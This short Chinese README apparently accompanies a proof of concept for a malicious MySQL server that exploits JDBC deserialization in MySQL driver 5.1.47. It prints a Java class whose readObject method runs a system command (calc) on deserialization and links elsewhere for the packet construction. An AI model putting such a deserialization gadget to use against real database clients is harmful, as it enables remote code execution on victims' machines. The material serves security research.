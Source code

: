 mysql jdbc反序列化漏洞的恶意数据库服务器

这里的例子针对的是mysql驱动5.1.47

Hello类代码
```
package serializable;

public class Hello implements Serializable{
    public static final long serialVersionUID = 42L;

    public Hello() throws IOException {
        System.out.println("Hello");
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        System.out.println("readObject");
        Runtime.getRuntime().exec("calc"); // calc
    }
}
```

具体包构造请看：https://mp.weixin.qq.com/s/h0YDLZ4igClNNBKf_I9e4w